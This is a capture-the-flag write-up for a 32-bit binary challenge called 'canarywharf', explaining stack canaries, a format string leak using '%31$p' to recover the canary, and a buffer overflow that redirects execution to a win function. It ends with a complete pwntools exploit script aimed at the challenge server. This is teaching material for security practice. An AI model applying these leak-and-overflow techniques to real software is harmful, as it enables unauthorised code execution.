



# CTF League - canarywharf

## Stack Canaries
For a typical buffer overflow ctf challenge, we will typically want to write beyond the buffer we control onto the stack to overwrite the return address to some place we control, or that prints the flag. In a more realistic binary, there will be a value on the stack somewhere between user data and and the critical return address/stack pointers whose value can be checked to ensure the stack has not been tampered with, and abort with a stack smashing error if it has. This makes ROP attacks more challenging, as we must both find this runtime randomized value, and replace it in our attack.


## Challenge
Inspecting the provided binary, we can see that stack canaries have been enabled. 
```
(.venv) $ checksec canarywharf.1
[*] '/home/rgman/osusec/spw4/canarywharf.1'
    Arch:       i386-32-little
    RELRO:      No RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```
This can also be seen from the decompiled code in Ghidra:



Before we can even try to solve the canary issue, we first have to find a buffer overflow we can abuse. When the program asks for our username, we can see from the decompiled code that it calls `printf()` with the raw contents of our input.



This vulnerability is known as a Format String vulnerability, which takes advantage of c-strings and the C Application Binary Interface (ABI) to load unintended data into the running program. In a standard program you might use `print("Username: %s, username)`. The printf function takes some number of arguments following the string to print that will be substituted before printed to stdout. `printf` knows to find these values based on the ABI, the first arguments are typically in defined registers (EAX, EBX, etc.), then even more values can be on the stack. The canary we want to find is on the stack somewhere, thus with enough string replacements in our input, we can find the canary.

To make this easier, C strings also allow indexing the arguments, instead of replacing 1 by 1, for example `%7$p` will grab the 7th provided argument and print it as a pointer/address, according to the ABI. All canary values should end in `00` and we found the canary at the 31st argument for printf, which we adapted to a pwntools script like so:

```py
p.sendline(b'%31$p')
out = p.recvuntil('!\n')
canary = int(out.split(b",")[-1].strip(b" \n!"), 16)
log.info(f'Canary: {hex(canary)}')
```

With a way to fetch the canary at runtime, we now only needed another buffer to overflow to control the return address and jump to the `win` function. We can see the win function is not called anywhere in the program, but is still in the compiled binary at address `0x080491f2`.

```
local:~/osusec/spw4$ objdump -D canarywharf.1 | grep win
080491f2 <win>:
 8049238:       75 1c                   jne    8049256 <win+0x64>
```

In Ghidra, we can see the layout of the stack, We have unbounded write access to the 64 character arrray. If we fill that buffer with any input, then we can replace the canary we found earlier, and put the address for our win function onto into the return address after 12 bytes of padding.



### Exploit Script

```python
#!/usr/bin/env python3
from pwn import *

address = 0x080491f2
garbage_len = 64

# p = process("./canarywharf")
p = remote('canarywharf.ctf-league.damsec.org', 1309)

p.sendline(b'%31$p')
out = p.recvuntil('!\n')
canary = int(out.split(b",")[-1].strip(b" \n!"), 16)
log.info(f'Canary: {hex(canary)}')
p.recvuntil('access code:')
p.sendline(b"A"*garbage_len + p32(canary) + b'A'*12 + p32(address))
p.interactive() 
```